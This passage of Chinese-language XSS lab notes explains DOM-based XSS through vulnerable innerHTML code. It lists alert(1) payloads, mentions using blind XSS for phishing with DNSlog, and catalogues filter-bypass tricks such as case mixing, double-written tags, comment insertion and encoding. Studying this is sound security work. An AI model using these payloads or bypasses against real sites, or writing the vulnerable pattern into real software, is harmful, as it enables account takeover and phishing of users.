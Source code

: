 成因：

var str = document.getElementById("text").value; 

document.getElementById("dom").innerHTML = "<a href='"+str+"'>what do you see?</a>";



payload:   #' onclick=alert(1)>

payload:  '><img src="#" onmouseover="alert(1)">

payload:   ' onclick="alert(1)">



### DOM型XSS-X

payload同上

跟前面的DOM不同的是，它的输入是从浏览器的URL中获取的，很像反射型XSS(get)。而前面的DOM是从Element中获取的



成因：

function domxss(){ var str = window.location.search; 

var txss = decodeURIComponent(str.split("text=")[1]); 

var xss = txss.replace(/\+/g,' ');

 document.getElementById("dom").innerHTML = "<a href='"+xss+"'>就让往事都随风,都随风吧</a>"; }




## 4、特殊

### XSS盲打

顾名思义，对后台弹窗，但是我们看不到反馈

用来钓鱼挺好的

也可以接DNSlog——>快去查！



### XSS过滤

**常见过滤绕过方法：**

- 前端限制绕过，直接抓包重放，或者修改html前端代码。比如反射型XSS(get)中限制输入20个字符。
- 大小写，例如`<SCRIPT>aLeRT(“jwt”)</sCRIpt>`。后台可能用正则表达式匹配，如果正则里面只匹配小写，那就可能被绕过。
- 双写，例如`<scri<script>pt>alert(“jwt”)</scri</script>pt>`。后台可能把`<script>`标签去掉，但可能只去掉一次。
- 注释干扰，例如`<scri<!--test-->pt>alert(“jwt”)</sc<!--test-->ript>`。加上注释后可能可以绕过后台过滤机制。
- 编码，后台过滤了特殊字符，比如`<script>`标签，但该标签可以被各种编码，后台不一定过滤





### XSS与htmlspecialchars
